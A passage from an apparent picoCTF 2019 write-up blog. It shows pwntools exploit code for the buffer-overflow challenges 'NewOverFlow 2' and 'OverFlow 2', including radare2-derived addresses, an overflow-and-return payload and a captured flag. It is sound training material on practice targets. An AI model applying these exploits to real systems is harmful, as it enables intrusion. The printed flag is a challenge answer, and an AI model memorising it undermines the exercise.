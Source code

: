 ```python
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7')
  REMOTE = True

# $ r2 ./vuln
# [0x00400680]> aaaa
# [0x00400680]> afl~flag
# 0x0040084d    3 101          sym.flag
# [0x00400680]> afl~main
# 0x004008ce    1 105          main

win_addr = 0x0040084d
main_addr = 0x004008ce
payload = 'a'*(0x40+8)+p64(main_addr)+p64(win_addr)

sh.sendlineafter('?\n', payload)
sh.sendlineafter('?\n', 'a')
sh.interactive()
```

flag: `picoCTF{r0p_1t_d0nT_st0p_1t_64362a2b}`

# OverFlow 2

## Problem

Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/OverFlow 2/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/OverFlow 2/vuln.c)

## Solution


This challenge is about the 32bit x86 calling convention where we need to call the `flag` function with two parameters. I have already done a detailed writeup for last year's [buffer-overflow-2](/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-2) challenge which is similar.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY
```